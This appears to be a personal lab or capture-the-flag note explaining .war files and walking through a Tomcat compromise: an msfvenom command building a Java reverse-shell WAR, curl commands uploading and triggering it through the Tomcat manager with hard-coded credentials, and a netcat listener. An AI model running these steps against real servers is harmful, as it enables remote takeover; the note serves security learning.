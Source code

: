 ## What is a `.war` file?

A `.war` file* stands for **Web Application Archive** — it’s the Java equivalent of a **.zip** or **.jar** file, but used specifically for **deploying web apps on servers like Apache Tomcat**.

- It contains Java classes, configuration files, and web resources (like HTML, JSP, etc.).
    
- Web servers such as **Apache Tomcat**, **JBoss**, or **GlassFish** can **deploy** `.war` files directly.
    
- When deployed, it becomes an accessible web application under a URL path like: `http://<server>:8080/shell/`


## msfvenom

#Attacking_machine 
1. Generated a WAR payload with `msfvenom`.
```
msfvenom -p java/shell_reverse_tcp LHOST=<ATTACKING MACHINE IP> LPORT=443 -f war > shell.war
```

| Part                        | Explanation                                                        |
| --------------------------- | ------------------------------------------------------------------ |
| `msfvenom`                  | The payload generator (part of Metasploit).                        |
| `-p java/shell_reverse_tcp` | Payload type — a **Java reverse shell** that connects back to you. |
| `LHOST=MACHINE IP           | Your local IP (where the reverse connection will come to).         |
| `LPORT=443`                 | The port on your machine to receive the shell.                     |
| `-f war`                    | Output format = **WAR web app file** (deployable on Tomcat).       |
| `> shell.war`               | Save the generated payload as `shell.war`.                         |

2. Upload the file `shell.war` to the Tomcat Server.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' -T shell.war 'http://<MACHINE IP>:8080/manager/text/deploy?path=/shell.war'
```

![[Screenshot_2025-10-16_05-26-25.png]]

3. Check the file has been uploaded.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/manager/text/list
```

![[Screenshot_2025-10-16_05-31-50.png]]

4. Open a netcat listener on the attacking machine.
```
nc -lnvp 443
```

5. Deploy the file.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/shell.war
```

## What happens when it’s deployed

1. Deploy the WAR file as a web app.
    
2. Launch the payload (a Java servlet) when accessed.
    
3. The payload will **connect back to your LHOST:443** and open a **reverse shell**.
    

That means you’d get a remote shell on the netcat listener. .

![[Screenshot_2025-10-16_05-47-40.png]]

